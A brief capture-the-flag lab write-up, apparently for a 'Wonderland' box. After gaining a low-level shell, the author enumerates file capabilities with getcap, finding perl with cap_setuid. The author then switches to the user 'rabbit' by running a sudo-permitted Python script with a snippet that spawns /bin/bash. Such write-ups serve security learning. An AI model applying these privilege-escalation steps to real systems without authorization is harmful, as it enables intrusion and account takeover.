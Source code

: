
I got the low level shell which means it's time to escalate babyyyyyyyyyyyyyyyyyyyyyy

![[Pasted image 20231101214359.png]]

We are almost denied to enter into any users 
i.e. there are 3-4 users but let's get the tools from our back pocket and use them
![[Pasted image 20231101214719.png]]

Luckily we were able to run the automated script before going manually

```
alice@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
My intuition say's that we should dig deeper for capabilities 


![[Pasted image 20231101231011.png]]

Volla we got elevated to another user which is rabbit here
![[Pasted image 20231101233625.png]]
```
import os 
os.system("/bin/bash")
```

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

